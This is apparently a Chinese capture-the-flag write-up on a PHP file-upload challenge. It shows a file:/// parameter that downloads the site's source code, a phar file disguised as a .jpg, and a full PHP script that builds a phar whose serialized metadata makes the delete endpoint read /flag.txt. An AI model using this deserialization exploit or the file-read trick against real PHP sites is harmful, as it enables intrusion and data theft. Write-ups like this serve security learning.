


# phar反序列化

首先打开界面注册登陆。进去发现是上传文件的题目。

首先先传一个正常的图片过去，没有问题。

这里发现图片有下载和删除的功能。抓包看看。

这里发现有明文参数filename。直接改成

	filename=file:///var/www/html/index.php

发现可以下载源码，之后随意抓一些操作，发现整体的文件有index.php,login.php,upload.php,download.php,class.php。全部下载下来。然后就没有思路了。查看大神的WP，发现

****在class里面存在file的close()可以读取到文件内容。并且可以通过USER的destruct来调用。****

在复现的时候需要把php.ini里的`phar.readonly`改成off。生成phar文件.

最后改包传上去，在调用删除，直接读取flag.txt，在返回的包里就可以看到flag。

附上exp：

	<?php
	/**
	 * Created by PhpStorm.
	 * User: jinzhao
	 * Date: 2019/6/11
	 * Time: 2:44 PM
	 */
	//1. 用这个构造一个 phar.phar
	//2. 重命名为 phar.jpg，传上去
	//3. POST 访问 /delete.php ，filename = phar://phar.jpg/exp.txt
	//4. flag 到手~
	class User {
	    public $db;
	}
	class FileList {
	    private $files;
	    private $results;
	    private $funcs;
	    public function __construct() {
	        $file = new File();
	        $file->filename = '/flag.txt';
	        $this->files = array($file);
	        $this->results = array();
	        $this->funcs = array();
	    }
	}
	class File {
	    public $filename;
	}
	ini_set('phar.readonly',0);
	@unlink("phar.phar");
	$phar = new Phar("phar.phar"); //后缀名必须为phar
	$phar->startBuffering();
	$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
	$o = new User();
	$o->db = new FileList();
	$phar->setMetadata($o); //将自定义的meta-data存入manifest
	$phar->addFromString("exp.txt", "glzjin"); //添加要压缩的文件
	//签名自动计算
	$phar->stopBuffering();
	?>